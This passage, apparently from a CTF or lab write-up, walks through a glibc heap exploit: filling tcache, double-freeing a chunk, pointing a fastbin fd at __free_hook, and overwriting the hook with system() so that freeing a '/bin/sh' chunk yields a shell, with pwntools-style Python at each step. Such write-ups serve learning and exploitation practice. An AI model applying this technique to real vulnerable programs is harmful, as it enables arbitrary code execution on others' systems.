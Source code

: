 ```python
for i in range(7):
    free(i)
```

<br />

Free the temp chunk so that it get added into 0x50 `fastbin`.

```python
free(temp)
```

<br />

Add another 7 chunks of 0x50 so that freed chunks from `tcachebin` are consumed. Use this opportunity to write the `/bin/sh` string into a chunk that can be freed later.

<br />

```python
for i in range(7):
    sh = add(0x58, "/bin/sh\0")
```

<br />

`Double free` the temp chunk into the 0x50 `tcachebin`.

<br />

```python
free(temp)
```

<br />

The next add request for a 0x50 size comes from the 0x50 tcachebin by the temp chunk. Request it, then overwrite its `fastbin` `fd`, pointing it near to the free hook. The fd of the fake chunk overlapping the `free hook` must be null.

<br />

```python
add(0x58, pack(libc.sym.__free_hook - 0x10))
```

<br />

The next request for a 0x50 sized chunk comes from the 0x50 `fastbin` by the temp chunk. The tcache code will dump any remaining chunks from the 0x50 `fastbin` into the 0x50 `tcachebin`, including the fake chunk.

```python
add(0x58, "C"*8)
```

<br />

The next request for a 0x50 sized chunk comes from the 0x50 `tcachebin` by the fake chunk that overlaps the `free hook`. Request it to overwrite the `free hook` with the address of `system()`.

```python
add(0x58, pack(libc.sym.system))
```
